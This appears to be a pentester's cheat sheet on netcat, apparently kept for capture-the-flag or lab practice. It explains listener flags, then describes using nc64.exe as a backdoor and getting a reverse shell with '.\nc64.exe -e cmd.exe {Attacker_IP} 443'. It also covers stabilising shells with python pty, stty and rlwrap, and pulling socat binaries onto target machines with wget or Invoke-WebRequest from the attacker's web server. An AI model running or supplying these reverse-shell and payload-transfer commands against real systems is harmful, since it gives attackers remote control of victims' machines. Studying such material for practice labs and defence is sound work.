

netcat
nc -h

nc -lvnp 8000
or
rlwrap nc -lvnp 8000
l : Listening mode.
v : Verbose mode. Displays status messages in more detail.
n : Numeric-only IP address. No hostname resolution. DNS is not being used.
p : Port. Use to specify a particular port for listening.

netcat (often abbreviated to nc) is a computer networking utility for reading from and
writing to network connections using TCP or UDP. The command is designed to be a
dependable back-end that can be used directly or easily driven by other programs and
scripts. At the same time, it is a feature-rich network debugging and investigation
tool, since it can produce almost any kind of connection its user could need and has
several built-in capabilities. Its list of features includes port scanning,
transferring files, and port listening: as with any server, it can be used as a
backdoor.
To use as Backdoor :
https://github.com/CybeXRay/nc.exe
We will attempt to get a stable reverse shell. We will upload the nc64.exe binary to the target
machine and execute an interactive cmd.exe process on our listening port.
We navigate to the folder and then start the simple HTTP server, then the netcat listener in a different tab by
using the following commands:
sudo python3 -m http.server 80 ---------------- Web server for the Target machine to download the nc64.exe
sudo nc -lvnp 443 ---------------- Our NC listner in the Attacker machine
Running the Backdoor in Target machine:
.\nc64.exe -e cmd.exe {Attacker_IP} 443 ------------As we are listening in 443
Stabilizing the shell got using rougue server technique:
Once we receive the output from the Rogue server, a shell spawns on our Netcat listener and we can
upgrade the terminal shell using the following command.
script /dev/null -c bash
To Read/Connect A Server with a Port:
(Can be used for Bind shells)
nc {Server_IP} {Port}
Example:
nc 209.97.131.64 32522
Stablization of Netcat:
A) Using Python-------------->
(Linux)
python -c ‘import pty;pty.spawn("/bin/bash")’ (if required use python2 or python3)
export TERM=xterm (this will give us access to term commands such as clear)
Ctrl+Z (Background the shell)
stty raw -echo; fg (This does two things: first, it turns off our own terminal echo. It then foregrounds the shell. )
stty raw -echo; fg
This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.
Note: As we have disabled echo in our own terminal. If the shell dies, we won't be able to see any inputs. Thus we need to use “reset” and enter.
B) Using rlwrap----------------->
(Mainly used for Windows)
rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell.
(Windows)
rlwrap nc -lvnp <port>
Then do the step 3 & 4 to turn of our own system's echo
C) Socat shell----------------------->
(Mainly used for Linux, Windows shell will have same stability as netcat)
First, transfer a socat static compiled binary program preferably over http server.
Download from https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true
Then host it in our local python web server
Linux target : wget <LOCAL-IP>/socat -O /tmp/socat
Windows target(powershell) : Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
Note: Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed
Changing Terminal Size, mainly used for text editors such as Vim or Nano to run properly:
In our own terminal run,
cd /tmp; stty -a
Get the values of “rows” & “columns”
Then in our target machine shell run,
stty rows <number>
stty cols <number>